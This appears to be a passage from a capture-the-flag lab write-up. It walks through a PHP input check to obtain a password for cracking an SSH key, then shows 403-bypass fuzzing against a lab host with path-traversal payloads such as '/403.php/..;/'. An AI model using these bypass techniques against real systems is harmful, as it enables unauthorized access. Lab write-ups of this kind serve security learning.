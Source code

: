 ```
                    }
          }
          else{
            echo "  Try Again!! ";
          }     
  }
```

The input is exploded i.e) input needs to be commas separated by a list!
The first condition is strlen($val[0]) == 2.  This means the length of the first item in the list needs to have a length of 2.
The next condition means the index [8] of the list needs to have a length of 3.
The index [5] value needs to be different than index [8]’s value.
The index [3] value needs to be different than index [7]’s value.


## Input => `**,*,*,**,*,*,*,*,***` or `**,*,*,*,*,*,*,**,***`

## Output => Nice. Password : cimihan_are_you_here? 

Ooh this may be the password to crack id_rsa and yes this looks like it !We can cross check by using john.

# 403 page bypass

## Tool: 403 fuzzer.py

python3 /opt/403fuzzer/403fuzz.py -u http://10.10.83.187:8001/403.php | grep 200


```
Response Code: 200	Length: 2563	Path: /
Response Code: 200	Length: 2563	Path: /
Response Code: 200	Length: 2563	Path: /
Response Code: 200	Length: 2563	Path: /403.php/%2e%2e
Response Code: 200	Length: 2563	Path: /403.php/%2e%2e/
Response Code: 200	Length: 2563	Path: /403.php/..
Response Code: 200	Length: 2563	Path: /403.php/../
Response Code: 200	Length: 2563	Path: /403.php/../../..//
Response Code: 200	Length: 2563	Path: /403.php/../..//
Response Code: 200	Length: 2563	Path: /403.php/../.;/../
Response Code: 200	Length: 2563	Path: /403.php/..//
Response Code: 200	Length: 2563	Path: /403.php/..//../
Response Code: 200	Length: 2563	Path: /403.php/../;/../
Response Code: 200	Length: 917	Path: /403.php/..;/
Response Code: 200	Length: 2563	Path: /403.php//../../	
```

Accessing `http://10.10.83.187:8001/403.php/..;/`, we are given a message.
